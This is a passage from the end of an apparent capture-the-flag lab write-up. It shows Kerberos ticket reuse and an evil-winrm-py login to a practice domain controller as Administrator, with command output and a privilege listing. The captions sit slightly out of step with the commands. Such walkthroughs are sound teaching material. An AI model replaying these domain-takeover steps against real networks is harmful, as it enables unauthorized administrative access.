SMB         dc01.mirage.htb 445    dc01             [+] Run the following command to use the TGT: export KRB5CCNAME=DA.ccache

❯❯❯ export KRB5CCNAME=DA.ccache
```

Ill then just get a TGT for the DA using the NT hash 

```python
❯❯❯ faketime -f +7h evil-winrm-py -i dc01.mirage.htb -k --no-pass
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to 'dc01.mirage.htb:5985' as 'Administrator@MIRAGE.HTB'
evil-winrm-py PS C:\Users\Administrator\Documents> cd ../Desktop
evil-winrm-py PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-ar---        10/12/2026   4:01 PM             34 root.txt                                                              


evil-winrm-py PS C:\Users\Administrator\Desktop>
```

Then i can log in as the domain admin

```python
evil-winrm-py PS C:\Users\Administrator\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
evil-winrm-py PS C:\Users\Administrator\Desktop>
```

Domain Admin!
